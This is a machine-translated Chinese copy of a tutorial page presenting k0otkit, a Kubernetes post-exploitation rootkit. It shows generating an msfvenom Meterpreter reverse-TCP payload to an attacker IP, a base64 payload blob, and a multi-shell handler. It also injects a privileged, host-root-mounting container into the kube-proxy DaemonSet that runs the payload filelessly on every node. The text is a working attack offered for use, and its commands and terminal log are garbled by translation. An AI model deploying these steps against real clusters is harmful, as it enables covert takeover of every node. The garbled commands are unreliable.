

# K0Otkit:通用后穿透技术，可用于穿透 Kubernetes 集群

> 原文：<https://kalilinuxtutorials.com/k0otkit/>

.png)

k0otkit 是一种通用的后渗透技术，可用于渗透 Kubernetes 簇。

使用 k0otkit，您可以快速、隐蔽和连续地操作目标 Kubernetes 集群中的所有节点(反向 shell)。

k0otkit 是 **Kubernetes** 和 **rootkit** 的组合。

先决条件:

**k0otkit 是一个后穿透工具，所以你要先征服一个集群，想办法逃出容器，获得主节点的 root 权限(确切的说，你要获得目标 Kubernetes 的 admin 权限)。**

场景:

*   在网络渗透之后，你得到一个目标的外壳。
*   如有必要，您可以设法提升权限并实现它。
*   您发现目标环境是 Kubernetes 集群中的一个容器(Pod)。
*   你设法从集装箱中逃脱并成功逃脱(使用 CVE-2016-5195、CVE-2019-5736、docker.sock 或其他技术)。
*   您获得了主节点的根 shell，并且能够将主节点上带有`**kubectl**`的集群指示为`**admin**`。
*   现在，您希望尽快控制集群中的所有节点。k0otkit 来了！

k0otkit 详见 *k0otkit:用 K8s 的方式黑 K8s*。

## 用法

确保在目标 Kubernetes 的主节点上有根 shell。(如果您拥有目标 Kubernetes 的管理员权限，您也可以使用 k0otkit，尽管您可能需要修改`**k0otkit_template.sh**`中的 **`kubectl`** 命令来使用令牌或证书。)

确保您已经在攻击者主机上安装了 Metasploit(`**msfvenom**`和`**msfconsole**`应该可用)。

**部署 k0otkit**

克隆此存储库:

**git 克隆 https://github.com/brant-ruan/k0otkit
CD k0otkit/
chmod+x ./*。sh**

用您自己的 IP 和端口替换`**pre_exp.sh**`中攻击者的 IP 和端口:

**攻击者 _IP=192.168.1.107
攻击者 _ 端口=4444**

**生成 k0otkit**

**。/pre_exp.sh**

`**k0otkit.sh**`将被生成。然后运行反向 shell 处理程序:

**。/handle _ multi _ reverse _ shell . sh**

一旦处理程序准备好，复制`**k0otkit.sh**`的内容并粘贴到目标 Kubernetes 的主节点上的 shell 中，然后按`**<Enter>**`执行它。

稍等片刻，享受来自所有节点的反向外壳🙂

附注:使用 k0otkit 操作 Kubernetes 集群的数量没有限制。

**与炮弹互动**

成功部署 k0otkit 后，您可以随意与任何反向 shell 进行交互:

## 特征

*   利用 K8s 的资源和功能(以 K8s 的方式黑 K8s)
*   动态容器注入
*   通信加密(感谢 Meterpreter)
*   无生命的

## 举例

生成 k0otkit:

kali@kali:~/k0otkit$。/pre_exp.sh

*   **攻击者 _IP=192.168.1.107**
*   **攻击者 _ 端口=4444**
*   **TEMP_MRT=mrt**
*   **MSF venom-p Linux/x86/meter preter/reverse _ TCP LPORT = 4444 LHOST = 192 . 168 . 1 . 107-f elf-o mrt
    ++ xxd-p mrt
    ++ tr-d ' \ n '
    ++ base64-w 0**
*   **PAYLOAD=N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzNDAwMjAwMDAxMDAwMDAwMDAwMDAwMDAwMTAwMDAwMDAwMDAwMDAwMDA4MDA0MDgwMDgwMDQwOGNmMDAwMDAwNGEwMTAwMDAwNzAwMDAwMDAwMTAwMDAwNmEwYTVlMzFkYmY3ZTM1MzQzNTM2YTAyYjA2Njg5ZTFjZDgwOTc1YjY4YzBhODEzZjM2ODAyMDAxMTVjODllMTZhNjY1ODUwNTE1Nzg5ZTE0M2NkODA4NWMwNzkxOTRlNzQzZDY4YTIwMDAwMDA1ODZhMDA2YTA1ODllMzMxYzljZDgwODVjMDc5YmRlYjI3YjIwN2I5MDAxMDAwMDA4OWUzYzFlYjBjYzFlMzBjYjA3ZGNkODA4NWMwNzgxMDViODllMTk5YjI2YWIwMDNjZDgwODVjMDc4MDJmZmUxYjgwMTAwMDAwMGJiMDEwMDAwMDBjZDgw**
*   **sed s/PAYLOAD_VALUE_BASE64/N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzNDAwMjAwMDAxMDAwMDAwMDAwMDAwMDAwMTAwMDAwMDAwMDAwMDAwMDA4MDA0MDgwMDgwMDQwOGNmMDAwMDAwNGEwMTAwMDAwNzAwMDAwMDAwMTAwMDAwNmEwYTVlMzFkYmY3ZTM1MzQzNTM2YTAyYjA2Njg5ZTFjZDgwOTc1YjY4YzBhODEzZjM2ODAyMDAxMTVjODllMTZhNjY1ODUwNTE1Nzg5ZTE0M2NkODA4NWMwNzkxOTRlNzQzZDY4YTIwMDAwMDA1ODZhMDA2YTA1ODllMzMxYzljZDgwODVjMDc5YmRlYjI3YjIwN2I5MDAxMDAwMDA4OWUzYzFlYjBjYzFlMzBjYjA3ZGNkODA4NWMwNzgxMDViODllMTk5YjI2YWIwMDNjZDgwODVjMDc4MDJmZmUxYjgwMTAwMDAwMGJiMDEwMDAwMDBjZDgw/g k0otkit_template.sh**

运行反向外壳处理程序:

**kali@kali:~/k0otkit$。/handle _ multi _ reverse _ shell . sh
payload =>Linux/x86/meter preter/reverse _ TCP
LHOST =>0 . 0 . 0 . 0
LPORT =>4444
exit onsession =>false
[*]漏洞利用作为后台作业 0 运行。[*]攻击已完成，但未创建会话。**

将`**k0otkit.sh**`的内容复制到目标 Kubernetes 的主节点上的 shell 中，然后按`**<Enter>**`:

**kali@kali:~$ nc -lvnp 10000
listening on [any] 10000 …
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.106] 48750
root@victim-2:~# volume_name=cache
mount_path=/var/kube-proxy-cache
ctr_name=kube-proxy-cache
binary_file=/usr/local/bin/kube-proxy-cache
payload_name=cache
secret_name=proxy-cache
secret_data_name=content
ctr_line_num=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk ‘/ containers:/{print NR}’)
volume_line_num=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk ‘/ volumes:/{print NR}’)
image=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep ” image:” | awk ‘{print $2}’)
create payload secret
cat << EOF | kubectl –kubeconfig /root/.kube/config apply -f – apiVersion: v1 kind: Secret metadata: name: $secret_name namespace:volume_name=cache root@victim-2:~# root@victim-2:~# mount_path=/var/kube-p kube-system type: Opaque data: $secret_data_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzNDAwMjAwMDAxMDAwMDAwMDAwMDAwMDAwMTAwMDAwMDAwMDAwMDAwMDA4MDA0MDgwMDgwMDQwOGNmMDAwMDAwNGEwMTAwMDAwNzAwMDAwMDAwMTAwMDAwNmEwYTVlMzFkYmY3ZTM1MzQzNTM2YTAyYjA2Njg5ZTFjZDgwOTc1YjY4YzBhODEzZjM2ODAyMDAxMTVjODllMTZhNjY1ODUwNTE1Nzg5ZTE0M2NkODA4NWMwNzkxOTRlNzQzZDY4YTIwMDAwMDA1ODZhMDA2YTA1ODllMzMxYzljZDgwODVjMDc5YmRlYjI3YjIwN2I5MDAxMDAwMDA4OWUzYzFlYjBjYzFlMzBjYjA3ZGNkODA4NWMwNzgxMDViODllMTk5YjI2YWIwMDNjZDgwODVjMDc4MDJmZmUxYjgwMTAwMDAwMGJiMDEwMDAwMDBjZDgw EOF assume that ctr_line_num < volume_line_num otherwise you should switch the two sed commands below inject malicious container into kube-proxy pod kubecroxy-cache root@victim-2:~# root@victim-2:~# ctr_name=kube-proxy-cache root@victim-2:~# root@victim-2:~# binary_file=/usr/local/bin/kube-proxy-cache root@victim-2:~# root@victim-2:~# payload_name=cache root@victim-2:~# root@victim-2:~# secret_name=proxy-cache root@victim-2:~# root@victim-2:~# secret_data_name=content root@victim-2:~# root@victim-2:~# ctr_line_num=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-tl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \ sed “$volume_line_num a\ \ \ \ \ \ – name: $volume_name\n hostPath:\n path: /\n type: Directory\n” \ sed “$ctr_line_num a\ \ \ \ \ \ – name: $ctr_name\n image: $image\n imagePullPolicy: IfNotPresent\n command: [\”sh\”]\n args: [\”-c\”, \”echo \$$payload_name | perl -e ‘my \$n=qq(); my \$fd=syscall(319, \$n, 1); open(\$FH, qq(>&=).\$fd); select((select(\$FH), \$|=1)[0]); print \$FH pack q/H*/, ; my \$pid = fork(); if (0 != \$pid) { wait }; if (0 == \$pid){system(qq(/proc/\$\$\$\$/fd/\$fd))}’\”]\n env:\n – name: $payload_name\n valueFrom:\n secretKeyRef:\n pr name: $secret_name\n key: $secret_data_name\n securityContext:\n privileged: true\n volumeMounts:\n – mountPath: $mount_path\n name: $volume_name” \ containers:/{print NR}’)oxy -o yaml | awk ‘/ root@victim-2:~# root@victim-2:~# volume_line_num=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk ‘/ volumes:/{print NR}’) root@victim-2:~# root@victim-2:~# image=$(kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep ” image:” | awk ‘{print $2}’) root@victim-2:~# root@victim-2:~# # create payload secret root@victim-2:~# cat << EOF | kubectl –kubeconfig /root/.kube/config apply -f – apiVersion: v1 kind: Secret metadata: name: $secret_name namespace: kube-system type: Opaque data: $secret_data_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAzNDAwMjAwMDAxMDAwMDAwMDAwMDAwMDAwMTAwMDAwMDAwMDAwMDAwMDA4MDA0MDgwMDgwMDQwOGNmMDAwMDAwNGEwMTAwMDAwNzAwMDAwMDAwMTAwMDAwNmEwYTVlMzFkYmY3ZTM1MzQzNTM2YTAyYjA2Njg5ZTFjZDgwOTc1YjY4YzBhODEzZjM2ODAyMDAxMTVjODllMTZhNjY1ODUwNTE1Nzg5ZTE0M2NkODA4NWMwNzkxOTRlNzQzZDY4YTIwMDAwMDA1ODZhMDA2YTA1ODllMzMxYzljZDgwODVjMDc5YmRlYjI3YjIwN2I5MDAxMDAwMDA4OWUzYzFlYjBjYzFlMzBjYjA3ZGNkODA4NWMwNzgxMDViODllMTk5YjI2YWIwMDNjZDgwODVjMDc4MDJmZmUxYjgwMTAwMDAwMGJiMDEwMDAwMDBjZDgw EOF secret/proxy-cache created root@victim-2:~# root@victim-2:~# # assume that ctr_line_num < volume_line_num root@victim-2:~# # otherwise you should switch the two sed commands below root@victim-2:~# root@victim-2:~# # inject malicious container into kube-proxy pod root@victim-2:~# kubectl –kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \ sed “$volume_line_num a\ \ \ \ \ \ – name: $volume_name\n hostPath:\n path: /\n type: Directory\n” \ sed “$ctr_line_num a\ \ \ \ \ \ – name: $ctr_name\n image: $image\n imagePullPolicy: IfNotPresent\n command: [\”sh\”]\n args: [\”-c\”, \”echo \$$payload_name | perl -e ‘my \$n=qq(); my \$fd=syscall(319, \$n, 1); open(\$FH, qq(>&=).\$fd); select((select(\$FH), \$|=1)[0]); print \$FH pack q/H*/, ; my \$pid = fork(); if (0 != \$pid) { wait }; if (0 == \$pid){system(qq(/proc/\$\$\$\$/fd/\$fd))}’\”]\n env:\n – name: $payload_name\n valueFrom:\n secretKeyRef:\n name: $secret_name\n key: $secret_data_name\n securityContext:\n privileged: true\n volumeMounts:\n – mountPath: $mount_path\n name: $volume_name” \
kubectl replace -f –
daemonset.extensions/kube-proxy replaced**

[**Download**](https://github.com/Metarget/k0otkit)